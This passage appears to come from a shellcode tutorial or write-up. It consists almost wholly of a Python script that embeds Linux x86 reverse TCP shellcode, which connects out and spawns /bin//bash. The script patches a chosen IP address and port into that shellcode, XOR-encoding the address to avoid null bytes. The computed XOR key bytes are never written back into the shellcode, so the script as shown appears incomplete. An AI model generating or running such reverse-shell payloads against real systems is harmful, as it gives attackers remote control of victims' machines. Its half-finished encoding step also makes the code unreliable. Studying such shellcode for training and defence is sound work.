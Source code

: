### Python script to modify IP and port
---------------------------------------

The following python script is used to modify the IP and port in the shellcode. It will automatically XOR the IP address with a key and make sure that the resulting shellcode doesn't contain any null bytes.

```python
#!/usr/bin/python

import socket
import struct
import sys

shellcode =  '\\x31\\xc0\\x31\\xdb\\x31\\xc9\\x31\\xd2'
shellcode += '\\xb0\\x66\\xb3\\x01\\x6a\\x06\\x6a\\x01'
shellcode += '\\x6a\\x02\\x89\\xe1\\xcd\\x80\\x89\\xc7'
shellcode += '\\xb8\\x80\\xff\\xff\\xfe\\xbb\\xff\\xff'
shellcode += '\\xff\\xff\\x31\\xd8\\x52\\x52\\x50\\x66'
shellcode += '\\x68\\x11\\x5c\\x66\\x6a\\x02\\x89\\xe6'
shellcode += '\\x31\\xc0\\x31\\xdb\\xb0\\x66\\xb3\\x03'
shellcode += '\\x6a\\x10\\x56\\x57\\x89\\xe1\\xcd\\x80'
shellcode += '\\x31\\xc9\\xb1\\x03\\x89\\xfb\\xb0\\x3f'
shellcode += '\\x49\\xcd\\x80\\x41\\xe2\\xf8\\x31\\xc0'
shellcode += '\\x68\\x61\\x73\\x68\\x41\\x68\\x69\\x6e'
shellcode += '\\x2f\\x62\\x68\\x2f\\x2f\\x2f\\x62\\x88'
shellcode += '\\x44\\x24\\x0b\\xb0\\x0b\\x89\\xe3\\x31'
shellcode += '\\xc9\\x31\\xd2\\xcd\\x80'

if len(sys.argv) < 3:
        print('Usage: {name} [ip] [port]'.format(name = sys.argv[0]))
        exit(1)

ip = sys.argv[1]
port = sys.argv[2]
port_htons = hex(socket.htons(int(port)))

byte1 = port_htons[4:]
if byte1 == '':
        byte1 = '0'
byte2 = port_htons[2:4]

ip_bytes = []
xor_bytes = []

ip_bytes.append(hex(struct.unpack('>L',socket.inet_aton(ip))[0]).rstrip('L')[2:][-2:])
ip_bytes.append(hex(struct.unpack('>L',socket.inet_aton(ip))[0]).rstrip('L')[2:][-4:-2])
ip_bytes.append(hex(struct.unpack('>L',socket.inet_aton(ip))[0]).rstrip('L')[2:][-6:-4])
ip_bytes.append(hex(struct.unpack('>L',socket.inet_aton(ip))[0]).rstrip('L')[2:][:-6])

for b in range(0, 4):
        for k in range(1, 255):
                if int(ip_bytes[b], 16) ^ k != 0: # Make sure there is no null byte
                        ip_bytes[b] = hex(int(ip_bytes[b], 16) ^ k)[2:]
                        xor_bytes.append(hex(k)[2:])
                        break

# Replace port
shellcode = shellcode.replace('\\x11\\x5c', '\\x{}\\x{}'.format(byte1, byte2))

# Replace encoded IP
shellcode = shellcode.replace('\\x80\\xff\\xff\\xfe', '\\x{}\\x{}\\x{}\\x{}'.format(ip_bytes[3], ip_bytes[2], ip_bytes[1], ip_bytes[0]))

```